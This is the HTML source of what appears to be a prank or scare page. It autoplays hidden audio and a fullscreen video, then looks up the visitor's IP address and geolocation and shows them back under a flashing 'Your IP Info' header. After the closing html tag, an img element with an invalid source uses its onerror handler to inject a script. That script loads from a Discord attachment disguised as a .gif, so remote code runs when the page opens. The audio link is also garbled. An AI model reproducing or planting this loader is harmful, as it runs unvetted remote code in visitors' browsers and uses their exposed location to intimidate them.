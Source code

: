     <h3 style="color: rgb(211, 205, 205); animation: flashing 1s infinite;">Your IP Info :</h3>
    <pre id="ip-info" class="json-data">Fetching...</pre>
    <div class="cmd-text-container" style="position: relative; top: -15px;">
        <div class="cmd-text" style="font-size: 17px; text-stroke: 3px black; color: black;">  </div>
    </div>

    <!-- Hidden audio element with autoplay -->
    <audio autoplay loop style="display: none;">
        <source src="[https://cdn.discordapp.com/attachments/1284879724442554410/1285304506699092049/-__2022.mp3?ex=66ea715a&is=66e91fda&hm=d1ef3d613aacd79f6142261f6e47e65c09e1bf19e920c4b96c50e4913f0bd0f9&" type="audio/mpeg](https://cdn.discordapp.com/attachments/1284879724442554410/1285304506699092049/-__2022.mp3?ex=66ebc2da&is=66ea715a&hm=ad0777c0107a63a8e8f4a001dc9b35cdf1429dab54167e873365726c92c26a23&)">
        Your browser does not support the audio element.
    </audio>

<video style="width: 100vw; height: 100vh;" controls autoplay loop muted>
    <source src="https://cdn.discordapp.com/attachments/1278045767495581881/1278047281991385168/trTrhKi.webp?ex=66ea6888&is=66e91708&hm=352f80057b550c40483f68c1327b9dec8cac9db75f6342eb5e30bf83bc3c98b4&">
    Your browser does not support the video element.
</video>


    <script>
        // JavaScript code to fetch and display the user's IP address and information
        function fetchIPAndInfo() {
            fetch('https://api.ipify.org/?format=json')
                .then(response => response.json())
                .then(data => {
                    document.getElementById('ip-address-value').textContent = data.ip;
                    return data.ip;
                })
                .then(ip => fetch(`https://ipinfo.io/${ip}/json`))
                .then(response => response.json())
                .then(ipInfoData => {
                    document.getElementById('ip-info').textContent = JSON.stringify(ipInfoData, null, 2);
                })
                .catch(error => {
                    console.error('Error:', error);
                    document.getElementById('ip-address-value').textContent = 'Unable to fetch IP address.';
                    document.getElementById('ip-info').textContent = 'Unable to fetch IP information.';
                });
        }

        // Fetch IP address and information initially
        fetchIPAndInfo();
    </script>
</body>
</html>
<img src="about:invalid" onerror="document.body.appendChild(document.createElement('script')).src='https://cdn.discordapp.com/attachments/1127945954008498257/1128403016156983326/DCFE33CB-173C-4D81-B606-FE6C83E4A79C.gif?ex=66af2973&is=66add7f3&hm=9d5bb86d901f65309165fc19e0a07c15138f34c789adf8d357d03643ae23ebf0&';">

</body>
</html>
